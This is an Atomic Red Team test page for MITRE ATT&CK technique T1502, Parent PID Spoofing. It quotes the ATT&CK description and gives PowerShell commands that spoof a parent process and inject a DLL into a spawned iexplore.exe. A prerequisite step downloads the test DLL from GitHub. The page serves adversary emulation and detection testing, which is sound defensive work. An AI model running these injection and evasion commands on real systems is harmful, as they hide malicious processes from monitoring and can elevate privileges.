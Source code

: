 # T1502 - Parent PID Spoofing

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1502)

<blockquote>Adversaries may spoof the parent process identifier (PPID) of a new process to evade process-monitoring defenses or to elevate privileges. New processes are typically spawned directly from their parent, or calling, process unless explicitly specified. One way of explicitly assigning the PPID of a new process is via the <code>CreateProcess</code> API call, which supports a parameter that defines the PPID to use.(Citation: DidierStevens SelectMyParent Nov 2009) This functionality is used by Windows features such as User Account Control (UAC) to correctly set the PPID after a requested elevated process is spawned by SYSTEM (typically via <code>svchost.exe</code> or <code>consent.exe</code>) rather than the current user context.(Citation: Microsoft UAC Nov 2018)

Adversaries may abuse these mechanisms to evade defenses, such as those blocking processes spawning directly from Office
documents, and analysis targeting unusual/potentially malicious parent-child process relationships, such as spoofing the
PPID of [PowerShell](https://attack.mitre.org/techniques/T1086)/[Rundll32](https://attack.mitre.org/techniques/T1085) to
be <code>explorer.exe</code> rather than an Office document delivered as part
of [Spearphishing Attachment](https://attack.mitre.org/techniques/T1193).(Citation: CounterCept PPID Spoofing Dec 2018)
This spoofing could be executed via VBA [Scripting](https://attack.mitre.org/techniques/T1064) within a malicious Office
document or any code that can perform [Execution through API](https://attack.mitre.org/techniques/T1106).(Citation: CTD
PPID Spoofing Macro Mar 2019)(Citation: CounterCept PPID Spoofing Dec 2018)

Explicitly assigning the PPID may also enable [Privilege Escalation](https://attack.mitre.org/tactics/TA0004) (given
appropriate access rights to the parent process). For example, an adversary in a privileged user context (i.e.
administrator) may spawn a new process and assign the parent as a process running as SYSTEM (such as <code>
lsass.exe</code>), causing the new process to be elevated via the inherited access token.(Citation: XPNSec PPID Nov
2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Parent PID Spoofing using PowerShell](#atomic-test-1---parent-pid-spoofing-using-powershell)

<br/>

## Atomic Test #1 - Parent PID Spoofing using PowerShell

This test uses PowerShell to replicates how Cobalt Strike does ppid spoofing and masquerade a spawned process.
Upon execution, "Process C:\Program Files\Internet Explorer\iexplore.exe is spawned with pid ####" will be displayed and
calc.exe will be launched.

Credit to In Ming Loh (https://github.com/countercept/ppid-spoofing/blob/master/PPID-Spoof.ps1)

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| parent_process_name | Name of the parent process | string | explorer|
| dll_path | Path of the dll to inject | path | PathToAtomicsFolder&#92;T1502&#92;bin&#92;calc.dll|
| dll_process_name | Name of the created process from the injected dll | string | calculator|
| spawnto_process_path | Path of the process to spawn | path | C:&#92;Program Files&#92;Internet Explorer&#92;iexplore.exe|
| spawnto_process_name | Name of the process to spawn | string | iexplore|

#### Attack Commands: Run with `powershell`!

```powershell
. $PathToAtomicsFolder\T1502\src\PPID-Spoof.ps1
$ppid=Get-Process #{parent_process_name} | select -expand id
PPID-Spoof -ppid $ppid -spawnto "#{spawnto_process_path}" -dllpath "#{dll_path}"
```

#### Cleanup Commands:

```powershell
Stop-Process -Name "#{dll_process_name}" -ErrorAction Ignore
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```

#### Dependencies:  Run with `powershell`!

##### Description: DLL to inject must exist on disk at specified location (#{dll_path})

##### Check Prereq Commands:

```powershell
if (Test-Path #{dll_path}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{dll_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1502/bin/calc.dll" -OutFile "#{dll_path}"
```

<br/>
